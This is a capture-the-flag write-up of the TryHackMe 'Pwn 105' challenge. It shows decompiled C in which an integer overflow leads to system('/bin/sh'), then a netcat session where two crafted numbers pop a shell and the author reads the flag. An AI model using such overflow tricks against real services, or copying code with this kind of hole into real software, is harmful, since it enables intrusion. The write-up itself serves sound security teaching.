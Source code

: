 ```yaml
---
author: pl4int3xt
layout: post
title: Pwn 105 - Tryhackme
date: '2024-01-20'
description: "Beginner level binary exploitation challenges from Tryhackme"
categories: [Pwn 101]
tags: [binary exploitation, Tryhackme ]
---
```


Let's download the binary and decompile it with ghidra. In `main()` we have `local_14 = local_18 + local_1c;`. The code checks if `local_14 < 0` the it pops a shell

```c
void main(void){
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("-------=[ BAD INTEGERS ]=-------");
  puts("|-< Enter two numbers to add >-|\n");
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&local_1c);
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&local_18);
  local_14 = local_18 + local_1c;
  if (((int)local_1c < 0) || ((int)local_18 < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n",(ulong)local_1c,(ulong)local_18,(ulong)local_14)
    ;
  }
  else if ((int)local_14 < 0) {
    printf("\n[*] C: %d",(ulong)local_14);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else {
    printf("\n[*] ADDING %d + %d",(ulong)local_1c,(ulong)local_18);
    printf("\n[*] RESULT: %d\n",(ulong)local_14);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Basically `local_14` is the value of the added numbers and so we need to make sure they return a value that is less than 0

> In C, the `int` data type is commonly used for representing integers. The `int` type has a finite range, typically from INT_MIN to INT_MAX. If you enter a number that is larger than its size it is converted into negative by the 2’s complement.The negative numbers are made by entering a number higher than the maximum

We need to perform a simple `int` overflow. we know the `int` range is `-2147483647` to `2147483647`. so if we add a value to the highest `int` the sum will go to the opposite side and become a negative.

```shell
2147483647 = 01111111111111111111111111111111

01111111111111111111111111111111 + 1 = 10000000000000000000000000000000
```

Let's try that and cat the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn105> nc 10.10.122.55 9005
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
ls
flag.txt
pwn105
pwn105.c
cat flag.txt
THM{REDACTED ..}
```